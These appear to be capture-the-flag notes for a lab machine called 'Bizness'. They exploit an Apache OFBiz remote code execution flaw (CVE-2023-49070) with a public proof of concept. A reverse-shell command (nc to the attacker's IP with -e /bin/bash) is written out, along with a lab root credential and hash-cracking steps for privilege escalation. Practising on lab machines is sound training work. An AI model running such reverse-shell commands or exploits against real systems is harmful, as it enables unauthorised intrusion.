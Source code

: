 #### ++ INFO ++
-> Apache OFBiz has a known **[RCE vulnerability](https://packetstormsecurity.com/files/176323/Apache-OFBiz-18.12.09-Remote-Code-Execution.html)** (`CVE-2023-49070`)
#### ++ USERS ++
	info@bizness.htb

#### ++ CREDENTIALS ++
	root:monkeybizness

#### ++ HOSTS ++
	`https://bizness.htb/`
	
#### ++ OFBiz RCE Vulnerability ++
	https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC/blob/main/README.md
	Download the payload, the jar file and install openjdk-11-jdk
	Set openjdk-11 in you vm options ('sudo update-alternatives --config java' -> option 1)
	Trigger the payload (python3 exploit.py https://bizness.htb/ rce 'nc 10.10.14.55 9001 -e /bin/bash')

#### ++ Priv Esc ++
	In /opt/ofbiz/runtime/data/derby/ofbiz/seg0 we found .dat files that contain the admin hash in SHA format
	OFBiz 
	To decrypt the hash we found a script (present in Enumeration page) and we got the root password